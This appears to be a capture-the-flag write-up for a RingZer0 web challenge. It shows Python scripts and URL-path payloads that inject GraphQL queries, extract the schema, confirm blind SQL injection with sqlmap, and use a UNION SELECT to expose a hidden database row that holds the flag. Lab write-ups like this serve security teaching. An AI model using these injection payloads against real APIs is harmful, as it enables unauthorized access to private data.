

# Inspiration

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Exotic Data Storage
- **Points:** 6

## Provided Materials

- Web page


## Solution

On the web page we can see some quote and can press button `New inspiration`, that will query some other quote.

So we can check the website with `Web Inspector` and we can see the endpoint in `app.js` from wich will be queried the next quote:



So the endpoint is `/api/quotes/{item}`, let's write python script, that will fuzz the endpoint with single characters:

```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

for i in range(256):
    char = chr(i)
    encoded_char = quote(char)  # URL encode the character
    url = f"{base_url}{encoded_char}"
    response = requests.get(url, headers=headers)
    print(f"Character: {char}, Response: {response.text}")
```

From the results, we can see, that there are quotes with IDs from 1 to 9:

```
Character: 1, Response: {"data":{"quote":{"value":"Memories are art","author":{"name":"Audrey T. Lee"}}}}
Character: 2, Response: {"data":{"quote":{"value":"If we can lie down pyramid schemes, we can rise above our large intestines","author":{"name":"Audrey T. Lee"}}}}
Character: 3, Response: {"data":{"quote":{"value":"A talking dog is always chasing the dragon","author":{"name":"Audrey T. Lee"}}}}
Character: 4, Response: {"data":{"quote":{"value":"Keep on weakening","author":{"name":"Frances C. Adams"}}}}
Character: 5, Response: {"data":{"quote":{"value":"Whenever youre annoyed with the way things are going, remember to live","author":{"name":"Frances C. Adams"}}}}
Character: 6, Response: {"data":{"quote":{"value":"Tell everyone that they are normal","author":{"name":"Frances C. Adams"}}}}
Character: 7, Response: {"data":{"quote":{"value":"Never doubt that you are not immensely eminently great","author":{"name":"Richard G. Cabrera"}}}}
Character: 8, Response: {"data":{"quote":{"value":"Do your best","author":{"name":"Richard G. Cabrera"}}}}
Character: 9, Response: {"data":{"quote":{"value":"Do you think that shocks are shocks because no ones in charge?","author":{"name":"Richard G. Cabrera"}}}}
```

 Let's manually test the endpoint with other numbers. There is some response with the ID 10 (`/api/quotes/10`), but it's empty. Hm, interesting:

```
{
    "data": {
        "quote": null
    }
}
```

Also from the response we can notice [GraphQL](https://graphql.org/learn/queries/) format. So we can assume, that on the backend the request looks as follows:

```sh
{
  quote(id: our_id) {
    value
    author {
    	name
    }
  }
}
```

So we can modify our request to query all the quotes:

```
/api/quotes/2){ id value author { name } },quotes(
```

So on the backend it will be:

```sh
{
	quote(id: 2) {
	  	id
	  	value
	  	author {
	  		name
		}
	}, quotes() {
	  	id
	  	value
	  	author {
	  		name
		}
	}
}
```

Let's slightly modify our previous script to send GET requests to our endpoint:

```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

string = """2){ id value author { name } },quotes("""
encoded_string = quote(string)  # URL encode the character
url = f"{base_url}{encoded_string}"
response = requests.get(url, headers=headers)
print(f"Response: {response.text}")
```

And indeed we get all the quotes at once.

So [GraphQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection) is possible, let's analyze it further. We can send the query to get the [GraphQL Schema](https://graphql.org/learn/schema/):

```
/api/quotes/2){ id value author { name } }, __schema{types{name, fields {name} } }, quotes(
```

We can see now all the fields in `Quote` structure: `author`, `id`, `public` and `value`. Hm, we haven't seen `public` field before... Also there is interesting `search` query. Let's build our query:

```
/api/quotes/2) { id } search (query: "our_char") { id,value } test : quote(id:1
```

We can also fuzz it:

```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

for i in range(256):
    char = chr(i)
    string = f"""2) {{ id }} search (query: "{char}") {{ id,value }} test : quote(id:1"""
    encoded_string = quote(string)  # URL encode the character
    url = f"{base_url}{encoded_string}"
    response = requests.get(url, headers=headers)
    print(f"Char: {char}, Response: {response.text}")
```

One of results:

```
Char: ?, Response: {"data":{"quote":{"id":2},"search":[{"id":9,"value":"Do you think that shocks are shocks because no ones in charge?"}],"test":{"value":"Memories are art","author":{"name":"Audrey T. Lee"}}}}
```

Probably it searches the `value` by the last character. Let's now use [sqlmap](https://github.com/sqlmapproject/sqlmap) and try to find the `SQL Injection` possibility in our query. For that we need to build our query and URL-encode it *(We need to use `*` as placeholder for `sqlmap`)*:

```
/api/quotes/2) { id } search (query: "*") { id,value } test : quote(id:1
```

URL-encoded:

```
/api/quotes/2%29%20%7B%20id%20%7D%20search%20%28query%3A%20%22*%22%29%20%7B%20id%2Cvalue%20%7D%20test%20%3A%20quote%28id%3A1
```

And also we need to build our request and save it to the file:

```
GET /api/quotes/2%29%20%7B%20id%20%7D%20search%20%28query%3A%20%22*%22%29%20%7B%20id%2Cvalue%20%7D%20test%20%3A%20quote%28id%3A1 HTTP/1.1
Host: challenges.ringzer0ctf.com:10303
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: */*
Referer: http://challenges.ringzer0ctf.com:10303/
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
If-None-Match: W/"6551184a57e1e95ba11e5a8840762ebe"
Connection: close
```

So, let's now use `sqlmap`:

```
python sqlmap.py -r sqlmap_request.txt --level=5 --risk=3
```

Output:

```
sqlmap identified the following injection point(s) with a total of 258 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challenges.ringzer0ctf.com:10303/api/quotes/2) { id } search (query: "') AND 2571=2571-- FlEs") { id,value } test : quote(id:1
---
```

As we can use `SQL Injection` here, we can find the number of columns in `Quotes` table:

```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

string = """2) { id } search (query: "a') union SELECT 1,2,3,4,5,6 from Quotes --") { id, value, public, author { id, name} } test : quote(id:1"""
encoded_string = quote(string)  # URL encode the character
url = f"{base_url}{encoded_string}"
response = requests.get(url, headers=headers)
print(f"Response: {response.text}")
```

We didn't get an error, when we `SELECT` 6 columns. So we remember, that we had some quote with ID `10`, that wasn't visible and also we have `public` field, that has value `1` for each of quotes from `1` to `9`. Probably the `public` field is set to `0` on the `10th` quote, and because of that we can't query it. Let's find the position of the `public` column. We can make it by setting each of the columns to `1`. We found it by setting `4th` column to `1`:

```
2) { id } search (query: "a') union SELECT 0,2,3,1,5,6 from Quotes--") { id, value, public, author { id, name} } test : quote(id:1
```

Result: 

```
Response: {"data":{"quote":{"id":2},"search":[{"id":0,"value":"3","public":1,"author":{"id":2,"name":"Frances C. Adams"}}],"test":{"value":"Memories are art","author":{"name":"Audrey T. Lee"}}}}
```

So the first column is `id`, second is `author_id`, third is `value` and the fourth, as we already found out is `public`. The `5th` and `6th` we can't find out, but we don't need it, so let's query all the quotes by explicitly setting `public` field to `1`:

```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

string = """2) { id } search (query: "a') union SELECT id,author_id,value,1,5,6 from Quotes --") { id, value, public, author { id, name} } test : quote(id:1"""
encoded_string = quote(string)  # URL encode the character
url = f"{base_url}{encoded_string}"
response = requests.get(url, headers=headers)
print(f"Response: {response.text}")
```

Result:

```
...{"id":10,"value":"FLAG-9157d555e5fc12c866775e4093a639c3","public":1,"author":{"id":3,"name":"Richard G. Cabrera"}}...
```

So we were right, that the `10th` quote wasn't visible, because it's `public` field was set to `0`.

## Final Flag

`FLAG-9157d555e5fc12c866775e4093a639c3`

*Created by [bu19akov](https://github.com/bu19akov)*